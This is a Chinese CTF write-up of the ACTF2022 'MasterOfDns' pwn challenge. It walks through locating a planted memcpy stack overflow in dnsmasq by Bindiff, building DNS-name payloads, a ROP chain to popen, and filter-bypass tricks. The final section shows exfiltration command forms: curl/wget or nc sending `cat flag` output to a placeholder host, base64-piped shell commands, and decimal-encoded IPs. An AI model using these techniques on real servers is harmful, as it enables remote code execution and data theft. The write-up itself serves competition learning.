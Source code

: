 ```yaml
---
layout: article
pageview: true
key: 2022-07-22-actf2022-master-of-dns
title: ACTF2022-MasterOfDns题解
author: Ch4rc0al
categories: 
    - WriteUps
tags: 
    - CTF
    - Pwn
---
```


这题真是令我收获良多，学到很多新姿势。

本来是Mark佬复现的一道题目，鄙人随口说到~~32位的rop还不秒了？~~，结果猛调了两天，令人感叹😋。
<!--more-->

### 初见题目

[题目连接](https://adworld.xctf.org.cn/match/list?event_hash=ba9b2b4c-7265-45ce-aa4b-c917bc5ce1bc.event)

题目环境32位，没开`pie`和`canary`，根据题目给的README可以发现这是一个功能完备的DNS服务器，可以正常的dig。通过IDA打开后发现十分复杂，一下子无法确定漏洞在那个函数。

题目给了提示说源代码可以参考`dnsmasq`，我们通过文件中的字符串可以确定版本为`2.86`，编译环境`Ubuntu20`，遂编译一份和题目环境一样的可执行文件出来。

### 编译&Bindiff比较

我们可以在`dnsmasq`官网找到`2.86`版本的源代码，然后修改`Makefile`文件，令其编译参数如下
```
CFLAGS        = -Wall -W -fno-stack-protector -m32
LDFLAGS       = -m32 -no-pie
```
这里需要去掉`CFLAGS`里的`-O2`优化选项，如果有这一选项，编译出的文件与题目文件相比有43处大的函数不同，而去掉后只有2处，显然题目文件也去掉了该选项。

修改好后直接`make`即可编译，输出文件在`src/dnsmasq`。

我们可以使用`Bindiff`来方便的比较两个`elf`文件之间的区别，我们可以看到两个文件之间大约有10个相似度不为1的函数。我们双击点开对比，发现又一个函数只在结尾增加了一次`memcpy`，我们可以确定这里就是栈溢出的漏洞点。

![image.png](https://s2.loli.net/2022/07/22/nLhwyH3q56UovIi.png)

![image.png](https://s2.loli.net/2022/07/22/vGfEpxlACc3UBrn.png)

### 调试漏洞点

找到漏洞点后我们开始判断溢出的参数，通过阅读源代码以及`gdb`调试后，我们发现这里的`memcpy`会将我们请求中的域名部分复制到栈上去，我们只需要用`pwntools`来模拟DNS请求即可触发漏洞。

在~~学习了DNS报文格式~~WireShark抓包后，我们拿到了正常DNS请求的头和尾，中间的域名部分即是我们需要构造的`payload`，然而这部分有诸多限制。

例如我们要查询的域名是`baidu.com`，在报文中写成`\x05baidu\x03com\x00`，中间的`.`被替换为长度，而且每一节的长度最大为`0x3f`，所以我们的报文中间不能出现`\x00`和`\x2e`(chr(0x2e)='.')，而且长度表示与后面的字符串长度必须对应，否则都不能通过检查。

在用`gdb`调试程序时，需要切换为`root`用才能`attach`到程序，而且不能通过`gdb.debug()`来启动、调试程序，所以我创建了一个新的脚本来自动获取程序的`pid`并自动`attach`，结束调试后自动`kill`，需要在`root`用户下执行.

```shell
#!/bin/sh
port=9999
pid=$(netstat -nlp | grep :$port | awk '{print $7}' | awk -F"/" '{ print $1 }');
gdb -p $pid -iex="b *0x0804F444";

read -p "Press any key to resume ..." tmp;

if [  -n  $pid  ];  then
    kill  -9  $pid;
fi
```

由于我们是网络发包请求，所以不能通过什么途径来泄露`libc`地址，进一步使用`system`函数。我们查找程序的`plt`表，发现有一个`popen`函数可以利用，这个函数的效果与`system`类似，额外需要一个"r"或“w”字符串地址作为参数。

由于是32位环境，参数需要放在栈里，而我们既不知道栈地址，也不能找到合适的`gadget`来使用。这里我们可以通过IDA来找到程序里调用`popen`函数的相关汇编，可以找到如下代码
```
push edx;
push eax;
call popen;
```
这样我们不需要知道栈地址，只需要让`eax`为命令地址，`edx`为"r"或"w"字符串的地址即可。

而恰好`edx`里存着我们输入内容的附近的栈地址，我们通过一些`gadget`操作一番，即可设置`eax`寄存器。而字符串"r"也可以在`bss`段搜到，如此一来我们只需要反弹shell或反弹flag。

### 🐖🖊操作反弹flag


当时在这一步卡了好久，因为不管使用``curl(wget) aaa:bbb/`cat flag` `` 还是`cat flag|nc aaa bbb` 都只能建立连接而无法获取flag内容，最后使用``curl aaa:bbb/`pwd` ``测试才发现`popen`后的目录为根目录而不是启动的目录，没有flag文件自然不能获取内容。。。

这里介绍两种反弹flag的命令写法，由于我们的`payload`不能出现`.`符号，而这又是ip或域名中必备的组件，所以有以下方法绕过

1. Mark佬的方法，我们先将反弹flag命令用base64编码，比如说编码后的结果为`ABCD==`，那么`payload`就为`echo ABCD==|base64 -d|sh`
2. 鄙人的方法，其实ip可以写成10进制的方式，`1.2.3.4`转化为10进制的方法是`4+3*256+2*256^2+1*256^3`，结果为`16909060`，代替正常命令中的ip即可